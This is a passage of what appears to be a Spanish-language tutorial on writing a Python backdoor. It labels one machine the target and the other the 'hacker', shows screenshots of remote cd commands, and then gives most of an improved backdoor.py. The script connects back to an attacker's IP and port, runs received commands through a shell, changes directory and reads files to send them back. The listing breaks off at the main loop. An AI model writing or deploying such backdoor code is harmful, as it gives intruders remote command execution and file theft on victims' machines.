 ```bash
```

# Parrot (Target)

![agregando comando cd parrot](https://user-images.githubusercontent.com/97669969/157443431-a06494a4-05be-4d80-bfec-8e4dc9d1c3b7.png)


# Ubuntu (Hacker) 

* En el listener no modificamos ningun codigo, es el backdoor el que ejecuta.


![agregando comando cd ubuntu](https://user-images.githubusercontent.com/97669969/157443616-4c26c46e-3fd3-4894-b695-919cb9ec26ba.png)
* Comando cd cd .. funcionando perfectamente.


# MEJORA DE CODIGO IMPLEMENTAMOS OPCION DE "descargar"

* backdoor.py

```bash
import socket
import subprocess
import json
import os

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n [+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True)

    def cambiar_directorio(self,ruta):
        os.chdir(ruta)
        return "[+] Cambiando de directorio a {}".format(ruta).encode()
    
    def leer_archivo(self,ruta):
        with open(ruta,"rb") as file:
            return file.read()

    def run(self):
        while True:

```